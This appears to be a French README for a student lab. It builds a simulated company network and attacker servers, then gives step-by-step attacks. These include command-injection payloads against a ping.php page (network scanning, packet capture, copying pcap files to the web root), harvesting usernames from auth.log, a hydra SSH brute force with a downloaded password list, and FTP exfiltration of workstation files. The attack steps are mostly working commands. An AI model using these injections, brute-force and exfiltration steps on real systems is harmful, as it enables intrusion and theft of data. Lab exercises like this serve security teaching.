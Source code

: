 ## serveurs / VM :

### www : 
- à installer :  
`sudo apt-get update -y`  
`sudo apt-get install -y apache`  
`sudo apt-get install –y php7  ` 
- avec fichier :
    - ping.php 
    - logs.php
### poste :
- à installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y iptables`  
`sudo apt-get install -y openssh-server`



#### pirate :
- À installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y wireshark`  
`sudo apt-get install -y tcpdump`  
- Mais aussi il faut installer ces paquets :
    - ##### partie client FTP :
    `sudo apt-get install -y filezilla`  
    `sudo apt-get install -y ftp`  
    `sudo apt-get install -y sleuthkit`   
    
    - ##### partie client SSH :
    
    `sudo apt-get install -y ssh`  

#### Serveur ftp-pirate :
- À installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y vsftpd` 

#### Serveur ssh-pirate :
- À installer :  
`sudo apt-get update -y`  
`sudo apt-get install -y openssh-server`


#### Serveur cc-pirate :
- À installer :  
`sudo apt-get update -y`  



### depuis www
A6 )

le pirate va sur la page $ip_www/ping.php

```php
; sudo history ; // historique des commandes

; sudo apt-get install -y nmap ; // installation avec yes

; sudo apt-get install tcpdump -y && sudo tcpdump --interface any -c 400  -w data.pcap ;  // s'arrete après 400 paquets

; ip a ; //note l'adresse réseau 192.168.0.56

: nmap -T4 -sP 192.168.0.0/24 | grep for ; // scanne le réseau local de www

// tu notes l'adresse IP qui est différente de www sauf Routeur

; sudo dpkg -l > res.txt && cat res.txt && rm -rf res.txt ; // listes des paquetages installés par rapport à l'indice A6
; sudo dpkg -s | grep "Package" ; // listes des paquetages installés par rapport à l'indice A6


; sudo dpkg -l | grep -i "tcpdump" ; //équiavlent de Wireshark en ligne de commandes s'il est installé alors des fichiers pcap seront générables


; sudo find / -name "*.pcap*" ; // recherche tous les fichiers .pcap lisible avec Wireshark du disque dur // noté les fichiers

 sudo tcpdump -h

-r file



sudo tcpdump -r /home/etudiant/data.pcap // affiche en ligne de commande l'ensemble de la capture réseau du fichier .pcap en gros wireshark juste en ligne de commande
 
//étape optionnelle




; sudo cp `sudo find / -name "*.pcap*"` /var/www/html/ ;


```

A7)

> [!WARNING]
> le pirate va sur la page $ip_www/ping.php
créer lorie sur poste de travail
sudo adduser lorie
rentrer le mot de passe
entrée à tout + y

avec un mot de passe dans la liste des 500 pires mot de passes
```php
; sudo cat auth.log ; // note le nom d'utilisateur du pc poste de travail
; sudo find / -name "auth.log" ; 

// filtrer sur le fichier pour avoir le nom d'utilisateur
; sudo cat auth.log | grep "postedetravail" | cut -f 4 -d ' ' | uniq ;
// bruteforce
; curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/500-worst-passwords.txt > 500-worst-passwords.txt ;
; hydra -l lorie -P 500-worst-passwords.txt $ip_postedetravail ssh ;





```
A8)

- poste de travail
echo "confidentiel" > draft_iphone30.docx 
echo "database data" > client_database.sql
sudo apt-get update -y && apt-get install -y vsftpd

docx=word


-  ftp-pirate -> poste :
<!-- curl ftp_transf.sh > ftp_transf.sh -->


ftp poste 
ls
mget *
quit

- serveur pirate ftp


- Explications :

-  VM vers hôte uniquement:réseau privé hôte
-  VM vers VM : Accès par pont : Réseau1(entreprise) 
-  VM vers VM : Accès par pont : Réseau2(pirate) 

Routeur fait liaison de Réseau1(entreprise)  vers Réseau2(pirate) 


- réseau privé hôte : 192.168.1.1 192.168.1.2 192.168.1.3
- Accès par pont : Réseau1(entreprise) : 192.168.1.21 (www) 192.168.1.56(Routeur) 192.168.1.X
- Accès par pont : Réseau2(pirate) : 172.16.110.X ...

liens   :
A6 )
https://www.makeuseof.com/tcpdump-examples/#:~:text=%20The%20tcpdump%20Output%20Format%20%201%20Timestamp,9%20Window%20size%2010%20Packet%20length%20More%20


A7)
https://www.kali-linux.fr/hacking/tutohydrabruteforce